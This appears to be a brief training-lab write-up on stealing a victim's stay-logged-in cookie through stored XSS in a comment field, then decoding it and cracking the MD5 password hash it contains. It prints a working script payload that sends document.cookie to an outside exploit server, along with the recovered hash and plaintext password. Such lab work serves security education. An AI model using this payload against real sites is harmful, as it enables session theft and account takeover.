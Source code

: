 # Offline password cracking

## This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

___


**<script>document.location='https://exploit-0a65001e048e11c1c00c3f5601990080.exploit-server.net/'+document.cookie</script>**

![screenshot](lab10_xss_store_eg.png)

![screenshot](lab10_exploit.png)

Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
after decode base64

carlos:26323c16d5f4dabff3bb136f2460a943

_26323c16d5f4dabff3bb136f2460a943_ is hash _onceuponatime_
